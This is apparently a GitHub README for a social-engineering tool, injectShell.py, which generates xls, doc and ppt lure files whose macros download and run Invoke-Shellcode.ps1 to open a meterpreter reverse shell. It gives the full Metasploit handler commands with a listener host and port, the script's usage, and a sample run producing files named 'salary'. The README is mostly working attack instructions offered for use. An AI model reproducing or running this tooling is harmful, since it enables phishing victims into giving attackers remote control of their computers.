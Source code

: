 # Social-Engineering-Toys
Social Engineering Toys  
***injectShell.py***    
The script generates office documents (xls, doc and ppt) that includes VBA code that download and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```

